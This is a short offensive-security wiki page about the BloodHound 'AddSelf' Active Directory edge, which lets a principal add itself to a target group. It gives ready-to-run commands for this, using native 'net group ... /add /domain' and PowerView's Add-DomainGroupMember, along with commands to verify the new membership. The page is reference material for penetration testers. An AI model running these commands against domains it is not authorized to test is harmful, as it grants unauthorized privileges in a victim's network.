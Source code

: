 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# AddSelf

## Information

The principal has the ability to add itself to the target group.

## Exploitation

This can be done natively ([opsec considerations](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#id17)) or with [PowerView](../../../../tools/tools/active-directory/powerview.md).

```powershell
# native
net group '<GROUP>' '<USER>' /add /domain
# PowerView
Add-DomainGroupMember -Identity '<GROUP>' -Members '<USER>'
```

Verify that the member was added.

```powershell
net group <GROUP> /domain
Get-DomainGroupMember -Identity '<GROUP>'
```

## Resources

{% tabs %}
{% tab title="BH Edge" %}
{% embed url="https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#addself" %}
{% endtab %}
{% endtabs %}
